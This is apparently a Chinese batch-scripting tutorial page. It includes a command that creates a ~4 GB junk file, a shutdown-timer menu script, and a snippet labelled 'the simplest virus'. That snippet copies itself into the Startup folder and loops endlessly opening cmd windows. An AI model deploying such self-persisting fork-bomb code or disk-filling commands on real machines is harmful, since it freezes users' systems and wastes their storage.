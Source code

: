 案例：

```shell
d:
cd\
fsutil file createnew d:\sys.ini 4096000000
```

```shell
:1 	# 区块1可以是区块a/b/c...

goto 3 	# 跳转到名字为3的区块
:2

:3

eg： 	# 最简单的病毒
copy qq.bat “%userprofile%\开始菜单\程序\启动”
:d
start 	# 后边不加东西，默认打开cmd
goto d
```

案例：

```shell
#echo off
title 小程序v1.0
color 0a

:menu
cls
echo ==========================
echo           菜单
echo         1.定时关机
echo         2.取消定时
echo         3.退出
echo ==========================

set /p number=您的选择：

if "%number%"=="1" goto 1
if "%number%"=="2" goto 2
if "%number%"=="3" goto 3
echo 别TM瞎输入，好好输入，别闹
goto menu

:1
set /p a=请输入时间（单位/秒）： 	# 等待用户输入定义的a值
shutdown -s -f -t %a%
goto menu

:2
shutdow -a
goto menu

:3
exit
```
